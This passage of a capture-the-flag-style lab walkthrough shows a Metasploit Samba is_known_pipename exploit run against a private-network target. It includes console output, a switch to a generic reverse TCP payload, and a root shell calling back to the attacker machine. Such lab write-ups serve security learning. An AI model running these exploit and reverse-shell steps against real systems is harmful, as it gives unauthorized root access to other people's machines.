 `$ msf5 exploit(linux/samba/is_known_pipename) > run`

```
[*] Started reverse TCP handler on 192.168.1.195:4444 
[*] 192.168.1.104:139 - Trying return address 0xbffffdfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffcfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffbfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffafc...
[*] Sending stage (985320 bytes) to 192.168.1.104
[*] Meterpreter session 1 opened (192.168.1.195:4444 -> 192.168.1.104:32770) at 2019-11-25 20:51:40 +1100
[*] 192.168.1.104 - Meterpreter session 1 closed.  Reason: Died
[*] 192.168.1.104:139 - Trying return address 0xbffff9fc...
[*] Sending stage (985320 bytes) to 192.168.1.104
[*] Meterpreter session 2 opened (192.168.1.195:4444 -> 192.168.1.104:32771) at 2019-11-25 20:51:41 +1100
[*] 192.168.1.104 - Meterpreter session 2 closed.  Reason: Died
[*] 192.168.1.104:139 - Trying return address 0xbffff8fc...
[*] Sending stage (985320 bytes) to 192.168.1.104
[*] 192.168.1.104 - Meterpreter session 3 closed.  Reason: Died
[*] Meterpreter session 3 opened (127.0.0.1 -> 192.168.1.104:32772) at 2019-11-25 20:51:42 +1100
[*] 192.168.1.104:139 - Trying return address 0xbffff7fc...
[*] Sending stage (985320 bytes) to 192.168.1.104
[*] Meterpreter session 4 opened (192.168.1.195:4444 -> 192.168.1.104:32773) at 2019-11-25 20:51:43 +1100
[*] 192.168.1.104 - Meterpreter session 4 closed.  Reason: Died
[*] 192.168.1.104:139 - Trying return address 0xbffff6fc...
```

So it looks like our victim is vulnerable to this exploit but the shell is immediately dying upon connecting back. Lets change the payload to something a bit less finicky than a staged meterpreter shell and see if that helps with stability.

`$ msf5 exploit(linux/samba/is_known_pipename) > set payload generic/shell_reverse_tcp`

```
[*] Started reverse TCP handler on 192.168.1.195:4444 
[*] 192.168.1.104:139 - Trying return address 0xbffffdfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffcfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffbfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffafc...
[*] Command shell session 5 opened (192.168.1.195:4444 -> 192.168.1.104:32774) at 2019-11-25 20:53:43 +1100

whoami
root
id
uid=0(root) gid=0(root) groups=99(nobody)
```

w00t w00t we have a root shell.

But much like in the Stapler walkthrough, Metasploitfeels  like cheating so we'll pretend it still doesn't work and look at Apache.
